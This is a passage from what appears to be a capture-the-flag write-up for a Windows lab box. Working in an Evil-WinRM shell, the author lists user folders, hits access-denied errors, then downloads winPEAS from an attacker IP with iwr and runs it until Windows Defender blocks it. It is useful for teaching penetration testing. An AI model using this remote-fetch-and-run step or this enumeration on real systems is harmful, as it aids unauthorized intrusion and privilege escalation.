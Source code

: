 Printing the user directories shows additonal users Administrator, svc_deploy, and TRX

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> cd C:\users
*Evil-WinRM* PS C:\users> ls


    Directory: C:\users


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----       10/23/2021  11:27 AM                Administrator
d-----       10/25/2021   8:22 AM                legacyy
d-r---       10/23/2021  11:27 AM                Public
d-----       10/25/2021  12:23 PM                svc_deploy
d-----        2/23/2022   5:45 PM                TRX
```

We can navigate into user directory TRX, but we do not have permissions to list any files in this directory.

The same is true for user directory svc_deploy

```
*Evil-WinRM* PS C:\users> cd TRX
*Evil-WinRM* PS C:\users\TRX> ls
Access to the path 'C:\users\TRX' is denied.
At line:1 char:1
+ ls
+ ~~
    + CategoryInfo          : PermissionDenied: (C:\users\TRX:String) [Get-ChildItem], UnauthorizedAccessException
    + FullyQualifiedErrorId : DirUnauthorizedAccessError,Microsoft.PowerShell.Commands.GetChildItemCommand
```

Upon searching the disk for useful files, I've found nothing of interest. I'll try winPEAS.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> iwr -uri http://10.10.16.8/winPEASany.exe -outfile wp.exe
```

Running wp.exe indicates that we will run into Windows Defender on this box.

```
*Evil-WinRM* PS C:\Users\legacyy\Documents> .\wp.exe
Enter PEM pass phrase:
Program 'wp.exe' failed to run: Operation did not complete successfully because the file contains a virus or potentially unwanted softwareAt line:1 char:1
+ .\wp.exe
+ ~~~~~~~~.
At line:1 char:1
+ .\wp.exe
+ ~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

